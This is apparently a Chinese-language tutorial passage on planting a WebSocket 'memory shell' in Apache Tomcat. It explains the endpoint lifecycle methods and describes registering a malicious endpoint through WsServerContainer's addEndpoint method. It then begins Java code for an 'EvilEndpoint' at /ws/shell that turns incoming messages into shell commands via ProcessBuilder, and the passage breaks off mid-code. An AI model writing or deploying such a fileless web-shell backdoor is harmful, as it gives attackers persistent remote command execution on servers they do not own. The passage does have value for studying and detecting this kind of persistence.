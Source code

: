 ![](2023-02-06-17-22-00.png)  
而sc即是WsServerContainer对象.
#### 生命周期
在WebSocket进行信息通信的过程中有以下几个生命周期.  
* @OnOpen 建立连接时触发。
* @OnClose 关闭连接时触发。
* @OnError 发生异常时触发。
* @OnMessage 接收到消息时触发。  
  
而我们注入内存马的地方就是重写其中的方法来执行shell代码.
#### 使用方式
在Tomcat中有两种方式定义一个处理WebSocket协议的类,一是通过`@ServerEndpoint`注解,二是实现一个继承于Endpoint类的子类. 
##### 注解  
注解方法官方参考:https://docs.oracle.com/javaee/7/api/javax/websocket/server/ServerEndpoint.html    
一个@ServerEndpoint注解应该有以下元素：

* value：必要，String类型，此Endpoint部署的URI路径。
* configurator：非必要，继承ServerEndpointConfig.Configurator的类，主要提供ServerEndpoint对象的创建方式扩展（如果使用Tomcat的WebSocket实现，默认是反射创建ServerEndpoint对象）。
* decoders：非必要，继承Decoder的类，用户可以自定义一些消息解码器，比如通信的消息是一个对象，接收到消息可以自动解码封装成消息对象。
* encoders：非必要，继承Encoder的类，此端点将使用的编码器类的有序数组，定义解码器和编码器的好处是可以规范使用层消息的传输。
subprotocols：非必要，String数组类型，用户在WebSocket协议下自定义扩展一些子协议。

##### 继承
继承于Endpoint类的子类的方式需要重写几个生命周期方法,比注解更麻烦.
#### 实现思路
实现的思路类似,获取到WsServerContainer对象,调用其addEndpoint方法将我们的恶意Endpoint添加进去即可.
#### 实现代码
```java
package org.example.Servlets;


import javax.websocket.OnMessage;
import javax.websocket.Session;
import javax.websocket.server.ServerEndpoint;
import java.io.IOException;
import java.util.Scanner;


@ServerEndpoint("/ws/shell")
public class EvilEndpoint {
    @OnMessage
    public void processGreeting(String message, Session session) throws IOException {
        if (message != null) {
            String o = "";
            ProcessBuilder p;
```